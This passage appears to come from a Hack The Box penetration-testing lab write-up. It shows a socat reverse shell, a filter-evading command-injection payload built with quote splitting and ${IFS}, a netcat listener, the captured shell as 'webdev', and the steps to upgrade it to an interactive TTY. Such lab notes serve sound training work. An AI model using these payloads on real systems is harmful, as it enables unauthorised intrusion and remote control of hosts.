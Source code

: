 We will use the following socat payload to connect to our reverse shell from the target:
```
socat TCP4:10.10.14.5:8443 EXEC:/bin/bash
```

Obfuscated payload, in order to fit the command injection vulnerability from the previous finding:
```
127.0.0.1%0a's'o'c'a't${IFS}TCP4:10.10.16.23:8443${IFS}EXEC:bash
```

Starting a listener on the attacker machine:
```shell-session
# nc -nlvp 8443
```

Running the reverse shell payload on the target:
![[Pasted image 20240721182152.png]]

And we got a connection:
```shell-session
# nc -nlvp 8443                                      
listening on [any] 8443 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.229.147] 59832
whoami
webdev
```

Upgrading the shell to fully interactive:
```shell-session
python3 -c 'import pty; pty.spawn("/bin/bash")'
webdev@dmz01:/var/www/html/monitoring$ ^Z
zsh: suspended  nc -nlvp 8443
                                                                                              
┌──(root㉿kali)-[~/HackTheBox/Paths/CPTS/AEN]
└─# stty raw -echo;fg
[1]  + continued  nc -nlvp 8443

webdev@dmz01:/var/www/html/monitoring$ export TERM=xterm-256color
webdev@dmz01:/var/www/html/monitoring$ stty rows 21 columns 94
webdev@dmz01:/var/www/html/monitoring$
```
